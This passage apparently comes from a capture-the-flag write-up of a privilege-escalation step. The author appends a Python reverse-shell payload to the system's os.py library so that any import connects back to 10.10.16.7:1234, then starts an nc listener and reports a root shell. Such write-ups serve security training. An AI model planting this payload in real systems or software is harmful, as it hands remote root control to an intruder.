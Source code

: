 ```bash
ls -l /usr/bin/python

lrwxrwxrwx 1 root root 9 Apr 16  2018 /usr/bin/python -> python2.7

```

Since python is pointing to python2.7, let’s edit OS so when it gets imported, it also executes a reverse shell:

```bash
nano /usr/lib/python2.7/os.py

#remove os and replace semi colon with newline and place the code at the very bottom
import socket,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.7",1234))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```

Now save it and start a listener:

```bash
nc -lnvp 1234
```

We now have root shell:

![image.png]({{ site.baseurl }}/assets/friendzone/image%2016.png)